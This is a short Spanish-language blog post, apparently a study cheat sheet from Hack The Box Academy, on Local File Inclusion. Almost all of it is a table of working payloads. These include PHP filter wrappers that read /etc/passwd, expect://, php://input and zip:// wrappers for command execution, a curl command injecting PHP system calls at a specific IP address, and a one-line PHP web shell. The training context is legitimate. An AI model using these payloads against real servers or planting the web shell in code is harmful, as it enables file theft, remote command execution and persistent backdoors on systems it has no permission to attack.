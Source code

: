 ```yaml
---
layout: post
title: Cheet Sheet LFI
autor: Lucho
categories: [Cheet Sheet]
---
```


_La vulnerabilidad ‘Local File Inclusion’ permite a un atacante leer un archivo del servidor vulnerable, se produce debido a un error de programación de la pagina._

| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

<br>

## Recursos

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

**By [Academy Hack The Box](https://academy.hackthebox.eu/)**